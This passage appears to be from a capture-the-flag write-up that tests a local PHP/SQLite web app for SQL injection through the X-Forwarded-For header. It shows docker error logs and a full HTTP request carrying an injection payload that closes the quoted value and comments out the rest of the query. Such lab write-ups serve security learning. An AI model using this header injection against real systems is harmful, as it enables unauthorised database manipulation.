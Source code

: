 Here I have used a `'` quote in `X-Forwarded-For` header just to check the application is vulnerable.

```bash
2022-05-19 17:58:34,059 INFO success: nginx entered RUNNING state, process has stayed up for > than 1 seconds (startsecs)
2022-05-19 17:58:34,059 INFO success: fpm entered RUNNING state, process has stayed up for > than 1 seconds (startsecs)
2022/05/19 18:02:01 [info] 8#8: *3 client 172.17.0.1 closed keepalive connection
2022/05/19 18:02:01 [info] 8#8: *4 client 172.17.0.1 closed keepalive connection
2022/05/19 18:44:38 [error] 8#8: *13 FastCGI sent in stderr: "PHP message: PHP Warning:  SQLite3::exec(): near &quot;nehal&quot;: syntax error in /www/Database.php on line 36" while reading response header from upstream, client: 172.17.0.1, server: _, request: "POST /subscribe HTTP/1.1", upstream: "fastcgi://unix:/run/php-fpm.sock:", host: "localhost:1337", referrer: "http://localhost:1337/"
```

We can see the error message in the application console in docker that is definitely a good sign.

```bash
POST /subscribe HTTP/1.1
Host: localhost:1337
X-Forwarded-For: NehalZaman', 'nehalagain@vimal.pan') -- - 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://localhost:1337
Connection: close
Referer: http://localhost:1337/
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InBzZWMiLCJvdHBrZXkiOnRydWUsInZlcmlmaWVkIjp0cnVlLCJpYXQiOjE2NTI5NjEwMTJ9.2fmjvHwdtFWlM0IfZ-7wF2dN-1vquKCjZCEJVDcu_Hk
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

email=nehal%40vimal.pan
```

This time I manipulated the `X-Forwarded-For` header in such a way that it is the same as the original query. 

```bash
022-05-19 17:58:34,059 INFO success: nginx entered RUNNING state, process has stayed up for > than 1 seconds (startsecs)
2022-05-19 17:58:34,059 INFO success: fpm entered RUNNING state, process has stayed up for > than 1 seconds (startsecs)
2022/05/19 18:02:01 [info] 8#8: *3 client 172.17.0.1 closed keepalive connection
2022/05/19 18:02:01 [info] 8#8: *4 client 172.17.0.1 closed keepalive connection
2022/05/19 18:44:38 [error] 8#8: *13 FastCGI sent in stderr: "PHP message: PHP Warning:  SQLite3::exec(): near &quot;nehal&quot;: syntax error in /www/Database.php on line 36" while reading response header from upstream, client: 172.17.0.1, server: _, request: "POST /subscribe HTTP/1.1", upstream: "fastcgi://unix:/run/php-fpm.sock:", host: "localhost:1337", referrer: "http://localhost:1337/"
```
